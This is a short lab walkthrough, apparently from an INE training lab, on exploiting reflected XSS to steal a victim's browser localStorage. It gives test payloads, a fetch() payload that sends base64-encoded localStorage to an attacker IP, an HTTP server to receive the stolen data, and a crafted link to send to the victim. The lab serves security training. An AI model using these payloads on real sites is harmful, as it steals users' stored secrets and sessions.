 ## Check for xss vulnerable pages in the app

    <script>alert(1)</script>

After checking try to retrieve local storage data from it

    <script>alert(JSON.stringify(localStorage))</script>

Check your Id address

    id addr

Start a Python-based HTTP server on the attacker machine (to receive back the stolen data):


    python3 -m http.server 80


Turn the data in local storage to base64

    btoa(JSON.stringify(localStorage))


Test a fetch request to your server

    fetch(`http://192.9.144.2/${btoa(JSON.stringify(localStorage))}`)

![xss-lab](images/xss-lab.png)

Decode the content received after issuing the XSS payload:

    python3
    import base64
    base64.b64decode("eyJzZWNyZXQiOiJBbnkgYnVncz8iLCJsb2dpbiI6ImJlZSJ9")


Now the attacker has to send this link to the victim and wait for them to click on the link:

**URL:**
     
    http://demo.ine.local/xss_get.php?firstname=%3Cscript%3Efetch(
    http%3A%2F%2F192.237.167.2%2F%24{btoa(JSON.stringify(localStorage))}
    )%3C%2Fscript%3E&lastname=Simth+Jones&form=submit